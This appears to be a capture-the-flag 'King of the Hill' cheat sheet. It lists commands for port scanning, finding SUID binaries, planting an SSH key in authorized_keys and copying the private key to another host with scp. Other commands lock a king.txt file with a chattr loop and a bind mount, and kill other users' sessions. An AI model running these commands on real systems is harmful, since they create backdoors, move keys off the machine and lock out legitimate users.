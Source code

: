 NMAP:
```
nmap -p- --min-rate 10000  10.10.206.190
```

```
nmap -p .. -sCV ..
```



To find SUID Binaries :
```
find / -perm /4000 2>/dev/null

```


## SSH KEY GEN

##### 1. Create the .ssh directory (if it doesn't exist)
```
mkdir -p ~/.ssh
```

##### 2. Generate an SSH key pair
```
ssh-keygen -t rsa -b 4096 -f ~/.ssh/id_rsa -N ""
```

##### 3. Add the public key to authorized_keys for passwordless login
```
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
```

##### 4. Set correct permissions for authorized_keys
```
chmod 600 ~/.ssh/authorized_keys
```



```
scp ~/.ssh/id_rsa pradyun@10.6.13.240:/home/pradyun/Music
```










# PROTECT KING FILE

```
while [ 1 ]; do chattr -ia /root/king.txt 2>/dev/null; echo -n Pradyun >| /root/king.txt 2>/dev/null; chattr +ia /root/king.txt 2>/dev/null; done &
```

Mount King 

```
sudo lessecho Pradyun > /root/king.txt; sudo dd if=/dev/zero of=/dev/shm/root_f bs=1000 count=100; sudo mkfs.ext3 /dev/shm/root_f; sudo mkdir /dev/shm/sqashfs; sudo mount -o loop /dev/shm/root_f /dev/shm/sqashfs/; sudo chmod -R 777 /dev/shm/sqashfs/; sudo lessecho Pradyun > /dev/shm/sqashfs/king.txt; sudo mount -o ro,remount /dev/shm/sqashfs; sudo mount -o bind /dev/shm/sqashfs/king.txt /root/king.txt; sudo rm -rf /dev/shm/root_f

```



# REMOVE OTHER USERS IN TTY

```
w
```

```
ps -t pts/1
```

```
sudo kill -9 <pid>
```





# REVOKE CHATTR

```
lsattr /root/king.txt
```


```
sudo chattr -i /root/king.txt   # Remove immutable flag
```

```
sudo chattr -a /root/king.txt   # Remove append-only flag
```